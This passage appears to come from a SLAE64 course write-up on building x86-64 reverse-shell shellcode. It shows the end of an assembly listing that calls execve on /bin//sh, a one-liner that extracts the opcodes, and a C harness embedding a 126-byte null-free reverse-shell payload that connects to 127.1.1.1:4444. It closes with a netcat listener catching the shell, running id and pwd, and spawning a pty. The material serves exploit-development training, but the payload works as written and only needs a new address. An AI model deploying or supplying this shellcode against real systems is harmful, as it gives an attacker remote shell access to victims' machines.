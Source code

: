 ```term

        ; Push address of /bin//sh
        push rdi

        ; set RSI

        mov rsi, rsp

        ; Call the Execve syscall
        add rax, 59
        syscall
```

Let's assemble, link this and get its shellcode!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

###### C format

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\xb0\x29\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x0f\x05\x48\x89\xc7\x48\x31\xd2\x48\x31\xed\x66\x6a\x02\x66\x5d\x52\xc7\x44\x24\xfc
\x7f\x01\x01\x01\x66\xc7\x44\x24\xfa\x11\x5c\x66\x89\x6c\x24\xf8\x48\x83\xec\x08\xb0\x2a\x48\x89\xe6\xb2\x10\x0f\x05\xb0\x21\x48\x31\xf6\x0f\x05\xb0\x21\x48\xff\xc6\x0f\x05\xb0\
x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"

;

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ gcc reverse-null-free.c -o reverse-null-free -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ ./reverse-null-free 
Shellcode Length:  126
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
whitecr0wz@SLAE64:~$ nc -lvp 4444 
listening on [any] 4444 ...
connect to [127.1.1.1] from localhost [127.0.0.1] 40484
id
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
pwd
/home/whitecr0wz/assembly/assignments/Assignment_2/B
python3 -c 'import pty;pty.spawn("/bin/bash")';
```